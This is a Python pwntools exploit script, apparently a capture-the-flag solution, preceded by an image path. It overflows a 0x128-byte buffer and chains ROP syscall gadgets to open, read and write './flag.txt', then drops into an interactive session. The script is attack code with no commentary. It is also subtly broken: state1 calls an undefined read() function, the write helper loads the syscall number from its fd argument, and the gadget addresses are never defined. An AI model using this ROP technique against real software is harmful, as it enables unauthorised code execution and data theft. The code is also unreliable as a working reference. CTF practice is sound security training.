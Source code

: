 ```python
def read_flag(writable,fd =3 ,count = 0x100):
    pl = p64(pop_rax) + p64(0)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl

#       const char *filename, int flags, umode_t mode
def open(filename,flags=0,mode=0):
    pl = p64(pop_rax) + p64(2)
    pl += p64(pop_rdi) + p64(filename)
    pl += p64(pop_rsi) + p64(flags)
    pl += p64(pop_rdx) + p64(mode)
    pl += p64(syscall_ret)
    return pl
# unsigned int fd, const char *buf, size_t count
def write(writable,fd=1,count=0x100):
    pl = p64(pop_rax) + p64(fd)
    pl += p64(pop_rdi) + p64(fd)
    pl += p64(pop_rsi) + p64(writable)
    pl += p64(pop_rdx) + p64(count)
    pl += p64(syscall_ret)
    return pl


def state1():
    payload = b'a'*0x128
    payload += read(bss,0)
    return payload

def state2():
    payload = b'a'*0x128
    payload += open(bss)
    payload += read_flag(bss+0x50)
    payload += write(bss+0x50)
    return payload

input()
payload2 = state1()
p.sendlineafter(b'pwn me pls',payload2)
input()
p.send(b'./flag.txt\x00')

payload3 = state2()
p.sendlineafter(b'pwn me pls',payload3)




p.interactive()
```
